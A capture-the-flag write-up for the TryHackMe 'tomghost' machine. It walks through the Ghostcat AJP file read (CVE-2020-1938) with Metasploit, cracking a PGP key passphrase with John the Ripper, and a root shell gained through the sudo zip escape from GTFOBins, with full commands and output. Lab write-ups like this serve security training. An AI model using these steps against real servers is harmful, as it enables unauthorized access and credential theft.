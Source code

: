 ```yaml
---
layout: post
title:  "THM Write-Up tomghost"
summary: Write-Up to the TryHackMe Machine tomghost
author: utnelson
date: '2022-02-10 10:35:23 +0530'
category: ['thm','write-up', 'easy']
thumbnail: /assets/img/posts/ghostcat/ghost_title.png
keywords: ghostcat, thm, box, easy, write-up, walkthrough
permalink: /blog/write-up-ghostcat/
---
```

Machine: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
## Enumeration

```console
root@machine:~$ nmap -sC -sV 10.10.114.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 12:55 CET
Nmap scan report for localhost (10.10.114.227)
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

Nothing special on the website. So I inspected the `8009/tcp` port with `Apache Jserv (Protocol v1.3)`.  

After a short google session i found a exploit [CVE-2020-1938](https://www.exploit-db.com/exploits/48143).

Let's run metasploit for that:

```console
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show 
missing

msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```

Only insert the `RHOSTS` with the target IP. And `run` it.  

```console
Result:
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:{secret password}
  </description>

</web-app>
...
```

Nice. we found some creds `skyfuck:{secret password}`
## Foothold

ssh into the machine
```console
root@machine:~$ ssh skyfuck@10.10.114.227
The authenticity of host '10.10.114.227 (10.10.114.227)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.114.227' (ECDSA) to the list of known hosts.
skyfuck@10.10.114.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$
```

```console
skyfuck@ubuntu:~$ ls -la
total 928
drwxr-xr-x 4 skyfuck skyfuck   4096 Feb 10 04:19 .
drwxr-xr-x 4 root    root      4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck    136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck    220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck   3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:08 .cache
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:19 .gnupg
-rw-r--r-- 1 skyfuck skyfuck    655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck    394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 136707 Feb 10 04:20 ghostcat.txt
-rwxrwxr-x 1 skyfuck skyfuck 764159 Feb 10 01:48 linpeas.sh
-rw-rw-r-- 1 skyfuck skyfuck   5144 Mar 10  2020 tryhackme.asc
```

in the home dir are two interesting looking file `tryhackme.asc` and `credential.pgp`. Download the to your local machine.  

Run `gpg2john` for getting the hash. And crack the passphrase with the wordlist `rockyou.txt`

```console
root@machine:~$ gpg2john tryhackme.asc > hash

File tryhackme.asc

root@machine:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
{secret password}        (tryhackme)
1g 0:00:00:00 DONE (2022-02-10 13:39) 6.666g/s 7146p/s 7146c/s 7146C/s {secret password}
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nice it worked. So You can decrypt the `credential.pgp` with that.  
Import the key with inserting the found passphrase.
```console
root@machine:~$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
Decrypt the text.
```console
root@machine:~$ gpg --output ./plaintext.txt --decrypt ./credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"

root@machine:~$ cat plaintext.txt 
merlin:{secret password}    
```
Nice new Creds for the user `merlin`  
Let's change to him.

```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```
Change to home directory and there we go our `user.txt`

## Prev Escalation

First we check if there are any sudo commands we can execute. 
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

Run the following code:

```console
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We got root. Cat the `root.txt` and you are done.


